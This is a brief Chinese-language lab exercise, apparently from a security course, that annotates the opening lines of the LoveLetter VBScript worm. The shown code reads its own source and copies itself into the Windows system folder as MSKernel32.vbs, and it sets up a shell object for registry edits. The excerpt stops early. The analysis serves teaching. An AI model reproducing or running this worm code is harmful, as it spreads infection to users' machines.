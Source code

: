 ###  IceWord 

![](VBScriptVAR/image-20220319103218549.png)

## 查看病毒分析

(6) 查看svir.vbs的病毒源码分析，指出病毒如何用代码实现对文件、注册表和进程的操作。

### 病毒源码

```vbscript
Rem barok -loveletter(vbe) <i hate go to school>
Rem by:spyder/ispyder@mail.com/@GRAMMERSoftGroup/Manila,Philippines

'http://msdn.microsoft.com/en-us/library/d6dw7aeh(VS.85).aspx
'On Error Resume Next 
' 发生错误时，程序执行下一代码
Dim fso,dirsystem,file,vbscopy
' 定义变量
Set fso = CreateObject("Scripting.FileSystemObject")	'创建文件对象FileSystemObject位于库 Scripting
Set file = fso.OpenTextFile(WScript.ScriptFullname,1)
'以只读方式打开当前脚本，WScript.ScriptFullname返回当前运行脚本的完整路径。
vbscopy = file.ReadAll	'将病毒全部代码赋给vbscopy
' 以文本形式读取整个文件，并赋给VBscopy

main()
Sub main()
	On Error Resume Next
	Dim wscr,c
	Set wscr = CreateObject("WScript.Shell")
' 创建一个WScript.Shell对象，用来修改注册表
	Set dirsystem = fso.GetSpecialFolder(1)	
' 1：'获取System文件夹路径，0：windows文件夹，2：temp文件夹
	Set c = fso.GetFile(WScript.ScriptFullName)	
'通过正在执行脚本路径获取病毒文件
	c.Copy(dirsystem&"\MSKernel32.vbs")	
'' 备份病毒到系统目录中
```